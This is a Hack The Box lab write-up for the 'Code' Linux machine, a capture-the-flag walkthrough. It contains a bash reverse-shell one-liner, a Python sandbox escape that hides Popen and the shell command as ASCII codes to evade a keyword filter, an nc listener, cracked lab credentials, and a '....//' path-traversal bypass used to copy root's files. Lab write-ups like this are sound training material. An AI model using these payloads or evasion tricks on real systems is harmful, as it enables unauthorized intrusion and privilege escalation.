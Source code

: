 # Code HTB Easy Linux Machine
![code](./images/code.png)


Started: 5/8/25

Pwned: 5/8/25

### Nmap Output
![nmap](./images/nmap.png)  

popen was blocked  
![keywordblock](./images/keywordblocked.png)  

RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'  
```
x = ().__class__.__bases__[0].__subclasses__()
e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]
cmd = ''.join([chr(i) for i in [
    98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,
    47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,
    47,52,52,52,52,32,48,62,38,49
]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1' ASCII decimal value
e(['/bin/bash', '-c', cmd], shell=False) 
```

### RevShell/Foothold

Command: nc -lvnp 4444 

![revshell](./images/revshell.png)  

![userflag](./images/userflag.png)  

Found database.db file on the machine
![database](./images/database.png)  

Exported the hash and input it into CrackStation  
![crackstation](./images/crackstation.png)  

development:development  
martin:nafeelswordsmaster  

sudo -l  
![sudo](./images/sudo.png)  

backy.sh  
![backy](./images/backy.png)  

### Getting Root  

![task](./images/task.png)  

We can bypass the filter since it removes ../ but will leave ../ when inputting ....// for path traversal. Since it's running as sudo, it will successfully backup the root directory files.  

![exploit](./images/exploit.png)  

![loot](./images/loot.png)  

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.
